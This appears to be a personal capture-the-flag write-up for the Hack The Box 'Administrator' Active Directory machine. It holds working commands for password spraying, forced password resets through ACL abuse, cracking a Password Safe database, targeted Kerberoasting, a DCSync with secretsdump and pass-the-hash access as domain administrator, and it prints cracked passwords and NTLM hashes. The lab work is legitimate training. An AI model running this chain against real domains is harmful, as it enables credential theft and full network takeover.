Start: 2026-11-17 10:40

IP:
```IP
10.129.98.229
```

Given Credential:
```Username
Olivia
```
```Password
ichliebedich
```
---

ports

```
sudo nmap -p- -Pn -vv --min-rate=5000 -n 10.129.98.229 -oA network/nmap_ports
```



FTP, DNS, Kerberos, RPC, SMB, LDAP, WinRM -> Windows Active Directory, Domain Controller

service

```
sudo nmap -sCV -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49669,56110,56116,56127,56132,56135,56148 -Pn -n -vv --min-rate=5000 10.129.98.229 -oA network/nmap_service
```



Domain: `administrator.htb`



Offsync with DC (update clock for Kerberos moves)
SMB message signing required (In hypothetical multihost network, SMB relay is out the picture)


Authenticated Domain Enumeration

FTP

```
ftp 10.129.98.229
```



530 User cannot log in


SMB

```
nxc smb 10.129.98.229 -u 'olivia' -p 'ichliebedich'
```



OS: Windows Server 2022 Build 20348 x64
Hostname: `DC`
Credential valid via SMB


Update `/ect/hosts`




SMB Shares

```
nxc smb 10.129.98.229 -u 'olivia' -p 'ichliebedich' --shares
```



READ permission over `IPC$`, `NETLOGON`, `SYSVOL`


GPP Password check

```
nxc smb 10.129.98.229 -u 'olivia' -p 'ichliebedich' -M gpp_password
```

No result


LDAP

```
nxc ldap DC -u 'olivia' -p 'ichliebedich'
```



No LDAP message signing and No channel binding (in hypothetical multihost network, possible LDAP relay)


Bloodhound enumeration

Collecting data with rusthound collector

```
./rusthound-ce -d administrator.htb -u 'olivia' -p 'ichliebedich' -z
```

`Enumeration Completed at 02:08:18 on 11/17/26! Happy Graphing!`

Deploy BloodHound CE local web interface for graphic analysis with docker

```
curl -L https://ghst.ly/getbhce -o docker-compose.yml
sudo docker compose up
```

Wait a few seconds to start

(To find password: Ctrl + Shift + F > "Initial Password")

Browse http://localhost:8080/ui/login and login with `admin:<pass>`

Upload ZIP

Explore > SEARCH > "olivia" > right click object > Add to Owned

Administration > BloodHound Configuration > Analyze Now

Explore > CYPHER > "Shortest paths from Owned objects"



Chain of abusable ACL
Olivia is a member of RMU


Connecting via WinRM to enumerate host internally

```
evil-winrm -i DC -u 'olivia' -p 'ichliebedich'
```

```
whoami /priv
```
```
whoami /groups
```



No outstanding / special privilege

Enumerating users

```
nxc smb DC -u 'olivia' -p 'ichliebedich' --users
```



Save to x.txt

Clean

```
cat x.txt | awk '{print $5}' | grep -vF -e '*' -e '+' -e '-' > users.txt
```

Remove `guest`, `krbtgt`

Spray known password against enumerated domain accounts

```
nxc smb DC -u users.txt -p 'ichliebedich' --continue-on-success
```

No reuse

Following ACL abuse chain


Olivia `GenericAll` > Michael

Change Michael's password

```
net rpc password "michael" "SETpass321" -U "ADMINISTRATOR.HTB"/"olivia"%"ichliebedich" -S "DC"
```

```
nxc smb DC -u 'michael' -p 'SETpass321'
```



Password changed, new credential
```
Michael
```
```
SETpass321
```

Add michael to Owned objects

Michael `ForceChangePassword` > Benjamin

Change benjamin password, same thing

```
net rpc password "benjamin" "SETpass321_2" -U "ADMINISTRATOR.HTB"/"michael"%"SETpass321" -S "DC"
```

```
nxc smb DC -u 'benjamin' -p 'SETpass321_2'
```



Password changed, new credential
```
Benjamin
```
```
SETpass321_2
```

Add benjamin to Owned objects

Authenticated enumeration with new owned accounts

FTP

```
ftp 10.129.98.229
```

Michael cant login `530 User cannot log in, home directory inaccessible.`



Benjamin can login

```
dir
```



Interesting backup file: `Backup.psafe3`. Download it:

```
get Backup.psafe3
```



"**PSAFE3 files** are specific encrypted files from Password Safe v3" - https://filext.com/file-extension/PSAFE3

Password database file. Searching for ways to open it on Linux find: https://github.com/ronys/pypwsafe and https://github.com/marcbutler/libpsafe3

Using second one, reusing known password

```
./psafe3pass ../Backup.psafe3 ichliebedich
```

`Failed: invalid pass phrase`

As with KeePass, the master key password hash can be extracted with `*2john` utilities (saw `pwsafe2john` in this post https://defr0ggy.github.io/research/Compromising-Open-Source-Password-Safes/)

```
pwsafe2john Backup.psafe3
```



Hash:
```
$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050
```

Save to file (`administrator.hash`)

Searching for "Password Safe v3" on https://hashcat.net/wiki/doku.php?id=example_hashes



Old mode `5200`, Current mode `40011`

```
hashcat -m 40011 administartor.hash rockyou.txt
```

`/usr/share/hashcat/modules/module_40011.so: cannot open shared object file: No such file or directory`

```
hashcat -m 5200 administartor.hash rockyou.txt
```

`Hash 'administartor.hash': Signature unmatched`

Using john

```
john administrator.hash --wordlist=/opt/wordlists/rockyou.txt
```



`tekieromucho` (?)

Cant open using the previous community tool, using official package for linux: https://github.com/pwsafe/pwsafe/releases?q=non-windows&expanded=true (`passwordsafe-debian12-1.26.1-amd64.deb`)

```
sudo dpkg -i passwordsafe-debian12-1.26.1-amd64.deb
```

`Errors were encountered while processing: passwordsafe`

Fix missing dependencies

```
sudo apt -f install
```

Now works. Launch the app, place the file in app default location and open it

```
mv Backup.psafe3 ~/.config/pwsafe/
```

Input master password: `tekieromucho`



Enter. The password is valid



3 entries. Click on them to copy password.

`alexander`: `UrkIbagoxMyUGw0aPlj9B0AXSea4Sw`
`emily`: `UXLCI5iETUsIBoFVTj8yQFKoHjXmb`
`emma`: `WwANQWnmJnGV07WQN8bMS7FMAbjNur`

Validating

```
nxc smb DC -u 'alexander' -p 'UrkIbagoxMyUGw0aPlj9B0AXSea4Sw'
```

Not valid

```
nxc smb DC -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```



Valid

```
nxc smb DC -u 'emma' -p 'WwANQWnmJnGV07WQN8bMS7FMAbjNur'
```

Not valid

Emily is the only one valid. New credential:
```
Emily
```
```
UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```

Add emily to Owned objects and refresh data

Explore > CYPHER > "Shortest paths from Owned objects"



Chain to full domain compromise. Emily > Ethan > DCSync

Emily is a member of RMU

Abusing Emily `GenericWrite` over Ethan

Employing shadow credentials technique. Generating key pair, writing public key to account attribute (`msDS-KeyCredentialLink`) and using private key to authenticate using Kerberos passwordless login (PKINIT)

Using certipy

```
certipy shadow auto -u emily@administrator.htb -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -account 'ethan' -dc-ip 10.129.98.229 -dc-host DC.administrator.htb
```

`socket ssl wrapping error: [Errno 104] Connection reset by peer`

TLS handshake with DC is failing

Trying Targeted kerberoasting

Sync with KDC

```
sudo ntpdate 10.129.98.229
```

```
./targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -f hashcat --dc-ip 10.129.98.229
```



Recovered hash from TGS-REP (and removed the temp SPN). Save to file (`ethan.hash`)

Trying to crack with mode `13100`

```
hashcat ethan.hash -m 13100 rockyou.txt
```



Cracked. Plaintext password: `limpbizkit`

New credential:
```
Ethan
```
```
limpbizkit
```


Executing DCSync as Ethan has replication rights

```
impacket-secretsdump ADMINISTRATOR.HTB/ethan:limpbizkit@DC.administrator.htb
```



All domain NTLM hashes recovered. 

```Administrator
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e
```
```krbtgt
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6
```

Connecting to target DC as DA (Administrator). Use NT hash (part after `:`)

```
evil-winrm -i DC -u 'Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```



Connected as `Administrator` (Domain Administrator) to target system `DC.administartor.htb` with IP: 10.129.98.229

Capture user flag:
```
type \Users\Emily\Desktop\user.txt
```



user.txt: `e8965874c384fc57efdc8e2ecde34feb`

Capture root flag:
```
type \Users\Administrator\Desktop\root.txt
```

root.txt: `30effced459800ea8a93b757e66835ac`

End: 2026-11-17 13:30

---
#### Post testing
##### Timeframe
Start: 2026-11-17 10:40

End: 2026-11-17 13:30

Total time: 2h 50min
##### Techniques
- `GenericAll` / `ForceChangePassword` abuse -> Change password
- Extracting Password Safe v3 (`.psafe3`) database file master key hash and cracking it (`pwsafe2john`, `john`)
- (Using Password Safe software to open password database file `.psafe3`)
- `GenericWrite` abuse -> Targeted Kerberoast -> Crack TGS-REP hash
- DCSync -> All Domain accounts NTLM hashes (Full Domain compromise)
##### Sources
- PSAFE3 file info: https://filext.com/file-extension/PSAFE3
- Comunity tools to open PSAFE3 files: https://github.com/ronys/pypwsafe and https://github.com/marcbutler/libpsafe3 (better use official app)
- Extracting pwsafe file master key hash example: https://defr0ggy.github.io/research/Compromising-Open-Source-Password-Safes/
- Hashcat modes (search "Password Safe v3"): https://hashcat.net/wiki/doku.php?id=example_hashes
- Password Safe official Linux app: https://github.com/pwsafe/pwsafe/releases?q=non-windows&expanded=true (`passwordsafe-debian12-1.26.1-amd64.deb`)
